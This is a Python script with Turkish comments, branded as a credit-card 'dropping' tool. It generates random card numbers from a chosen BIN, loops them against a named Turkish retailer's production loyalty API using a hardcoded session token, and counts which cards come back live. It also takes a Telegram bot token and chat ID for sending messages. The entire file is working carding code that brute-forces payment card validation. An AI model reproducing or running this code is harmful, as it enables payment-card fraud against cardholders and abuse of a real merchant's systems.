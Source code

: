 import os
import random
import requests
from colorama import Fore, Style, init
import time

# Colorama başlat
init(autoreset=True)

# Kırmızı Ejderha ASCII Sanatı
ascii_logo = f"""{Fore.RED}
,,
`""*$b..
     ""*$o.
         "$$o.
           "*$$o.
              "$$$o.
                "$$$$bo...       ..o:
                  "$$$$$$$$booocS$$$    ..    ,.
               ".    "*$$$$SP     V$o..o$$. .$$$b
                "$$o. .$$$$$o. ...A$$$$$$$$$$$$$$b
          ""bo.   "*$$$$$$$$$$$$$$$$$$$$P*$$$$$$$$:
             "$$.    V$$$$$$$$$P"**""*"'   VP  * "l
               "$$$o.4$$$$$$$$X
                "*$$$$$$$$$$$$$AoA$o..oooooo..           .b
                       .X$$$$$$$$$$$P""     ""*oo,,     ,$P
                      $$P""V$$$$$$$:    .        ""*"
                    .*"    A$$$$$$$$o.4;      .
                         .oP""   "$$$$$$b.  .$;
                                  A$$$$$$$$$$P
                                  "  "$$$$$P"
                                      $$P*"
  MORALESTOOL        .$"
                                     "
{Style.RESET_ALL}"""

print(ascii_logo)

# Rastgele kart bilgisi üretme
def generate_random_cc(bin_code, year=None, month=None, cvv=None):
    exp_year = year if year else str(random.randint(2025, 2030))  # 2025-2030 arası rastgele yıl
    exp_month = month if month else str(random.randint(1, 12)).zfill(2)
    cvv_code = cvv if cvv else "000"  # CVV boşsa 000 kullan
    card_number = bin_code + ''.join(str(random.randint(0, 9)) for _ in range(16 - len(bin_code)))
    return f"{card_number}|{exp_year}|{exp_month}|{cvv_code}"

# Telegram'a mesaj gönderme
def send_telegram_message(message, bot_token, chat_id):
    try:
        url = f"https://api.telegram.org/bot{bot_token}/sendMessage"
        data = {"chat_id": chat_id, "text": message}
        response = requests.post(url, data=data, timeout=15)

        if response.status_code == 200:
            print(f"{Fore.GREEN}✅ Mesaj başarıyla gönderildi!")
            return True
        else:
            print(f"{Fore.RED}❌ Telegram API hata kodu: {response.status_code}")
            return False

    except requests.exceptions.RequestException as e:
        print(f"{Fore.RED}❌ Mesaj gönderme başarısız oldu: {e}")
        return False

# API İsteği Gönderme
def api_request(card_number, month, year, cvv):
    url = f"https://mpecom-apigw-prod.boyner.com.tr/mobile2/mbOrder/GetRetrieveLoyalties?CardNo={card_number}&ExpMonth={month}&ExpYear=20{year}&SecureCode={cvv}"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0",
        "Accept": "*/*",
        "Accept-Language": "tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3",
        "api-version": "5",
        "appversion": "0.1.0",
        "content-type": "application/x-www-form-urlencoded",
        "ismarketplace": "true",
        "osversion": "1",
        "phonetype": "1",
        "platform": "1",
        "storeid": "1",
        "token": "c55f50bb-03e9-49ac-98b0-950761391979",
        "x-is-web": "true",
        "Sec-Fetch-Dest": "empty",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Site": "same-site"
    }
    try:
        response = requests.get(url, headers=headers, timeout=10)
        if response.status_code == 200:
            return response.json()
        else:
            print(f"{Fore.RED}❌ Hata! API isteği başarısız oldu: {response.status_code}")
            return None
    except requests.exceptions.RequestException as e:
        print(f"{Fore.RED}❌ API isteği sırasında hata oluştu: {e}")
        return None

# Kullanıcı girişleri
if __name__ == "__main__":
    print(Fore.RED + "CC KARTI DÜŞÜRÜCÜ TOOL CR/Morraless7")
    print(Fore.RED + "_________________________________")

    bot_token = input(f"{Fore.GREEN}Bot Token Gir: {Fore.WHITE}")
    chat_id = input(f"{Fore.GREEN}Chat ID Gir: {Fore.WHITE}")
    secim_ay = input(f"{Fore.GREEN}Ay Gir (MM) (Boş bırakılırsa rastgele): {Fore.WHITE}") or None
    secim_yil = input(f"{Fore.GREEN}Yıl Gir (YYYY) (Boş bırakılırsa 2025-2030 arası): {Fore.WHITE}") or None

    # Bin girişi zorunlu kıl
    while True:
        bin_kodu = input(f"{Fore.GREEN}6-8 Haneli BIN Gir: {Fore.WHITE}")
        if bin_kodu.isdigit() and len(bin_kodu) in [6, 8]:
            break
        print(f"{Fore.RED}❌ Bin Girmek Zorunlu! 6 veya 8 haneli bir bin girin.")

    cvv_kodu = input(f"{Fore.GREEN}CVV Gir (Boş bırakılırsa 000): {Fore.WHITE}") or "000"

    print(f"{Fore.YELLOW}Canlı Kart Aranıyor...\n")
    
    live_count = 0
    dec_count = 0

    while True:
        kart = generate_random_cc(bin_kodu, secim_yil, secim_ay, cvv_kodu)
        card_number, exp_year, exp_month, cvv = kart.split('|')

        # API isteği yap
        response_data = api_request(card_number, exp_month, exp_year, cvv)

        # Eğer API'den başarılı sonuç gelirse
        if response_data and response_data.get("status") == "success":
            live_count += 1  # Canlı kart sayısını artır
        else:
            dec_count += 1  # Geçersiz kart sayısını artır

        # Ekranı temizleyerek sayıları güncelle
        os.system('cls' if os.name == 'nt' else 'clear')
        print(f"{Fore.YELLOW}Canlı Kart Aranıyor...\n")
        print(f"✅ 𝐋𝐈𝐕𝐄 𝐊𝐀𝐑𝐓 𝐒𝐀𝐘𝐈𝐒İ: {live_count}")
        print(f"❌ 𝐃𝐄𝐂 𝐊𝐀𝐑𝐓 𝐒𝐀𝐘𝐈𝐒İ: {dec_count}")

        time.sleep(0.3)
      
